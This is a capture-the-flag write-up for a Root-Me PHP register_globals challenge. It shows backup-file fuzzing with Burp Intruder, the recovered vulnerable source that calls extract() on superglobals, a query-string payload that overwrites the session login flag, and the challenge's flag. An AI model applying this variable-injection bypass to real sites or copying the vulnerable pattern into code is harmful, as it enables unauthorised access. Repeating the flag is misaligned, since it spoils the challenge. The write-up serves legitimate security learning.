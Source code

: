 ```yaml
---
layout: default
title: PHP-register-globals
---
```


I took this list of possible backup files of `index.php` from chatGPT:
```
index.php~
index.php.bak
index.php.bkp
index.php.old
index.php.orig
index.php.save
index.php.swp         
index.php.swo
index.php.tmp
index.php.copy
```
And put it in burp intruder, to find the backup file, and I found out that `index.php.bak` exists
![backup file](./images/PHP-register-globals_backup.png)

So I downloaded this file, and this is what I got:
```php
<?php


function auth($password, $hidden_password){
    $res=0;
    if (isset($password) && $password!=""){
        if ( $password == $hidden_password ){
            $res=1;
        }
    }
    $_SESSION["logged"]=$res;
    return $res;
}



function display($res){
    $aff= '
	  <html>
	  <head>
	  </head>
	  <body>
	    <h1>Authentication v 0.05</h1>
	    <form action="" method="POST">
	      Password&nbsp;<br/>
	      <input type="password" name="password" /><br/><br/>
	      <br/><br/>
	      <input type="submit" value="connect" /><br/><br/>
	    </form>
	    <h3>'.htmlentities($res).'</h3>
	  </body>
	  </html>';
    return $aff;
}



session_start();
if ( ! isset($_SESSION["logged"]) )
    $_SESSION["logged"]=0;

$aff="";
include("config.inc.php");

if (isset($_POST["password"]))
    $password = $_POST["password"];

if (!ini_get('register_globals')) {
    $superglobals = array($_SERVER, $_ENV,$_FILES, $_COOKIE, $_POST, $_GET);
    if (isset($_SESSION)) {
        array_unshift($superglobals, $_SESSION);
    }
    foreach ($superglobals as $superglobal) {
        extract($superglobal, 0 );
    }
}

if (( isset ($password) && $password!="" && auth($password,$hidden_password)==1) || (is_array($_SESSION) && $_SESSION["logged"]==1 ) ){
    $aff=display("well done, you can validate with the password : $hidden_password");
} else {
    $aff=display("try again");
}

echo $aff;

?>
```

As you can see, it checks here whether you are logged_in, or password equal to hidden_password.
```php
if (( isset ($password) && $password!="" && auth($password,$hidden_password)==1) || (is_array($_SESSION) && $_SESSION["logged"]==1 ) ){
    $aff=display("well done, you can validate with the password : $hidden_password");
} else {
    $aff=display("try again");
}
```

However, when using global_variables, it means that we can access `?var=123`, and it will set in the code: `$var=123;`

So, let's try this:
`http://challenge01.root-me.org/web-serveur/ch17/?_SESSION[logged]=1`

And we get the password.

Another method, is to set both `password` and `hidden_password` to same values, and then you will be set `logged_in`, but you will get the fake password. 
Then, you'll remove the fake passwords, and get the real password because the `logged_in` is stored in the session.


**Flag:** ***`NoTQYipcRKkgrqG`***
